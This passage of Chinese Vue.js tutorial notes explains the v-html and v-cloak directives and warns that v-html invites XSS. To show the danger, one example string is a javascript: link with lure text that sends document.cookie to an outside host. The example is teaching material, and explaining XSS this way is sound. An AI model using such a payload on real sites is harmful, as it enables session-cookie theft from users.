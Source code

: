 ![](https://cdn.nlark.com/yuque/0/2023/png/29327577/1699845691550-068d441f-2937-4a6f-96c6-a367bbc6f5de.png)

#### v-html
作用：向指定节点中渲染包含html结构的内容。

与插值语法的区别：

+ v-html会替换掉节点中所有的内容，{{xx}}则不会。
+ v-html可以识别html结构。

严重注意：v-html有安全性问题！！！！

+ 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
+ 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```vue
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str">1111111111</div>
    <div v-html="str2">1111111111</div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

![](https://cdn.nlark.com/yuque/0/2023/png/29327577/1699845837993-d3ad3a3d-4883-486d-8e0f-a35e3d9f6983.png)

#### v-cloak
+ 作用是让页面加载，隐藏后页面在加载好之前不会显示{{}}等语法
+ 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
+ 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

```vue
<style>
    [v-cloak]{
        display:none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
```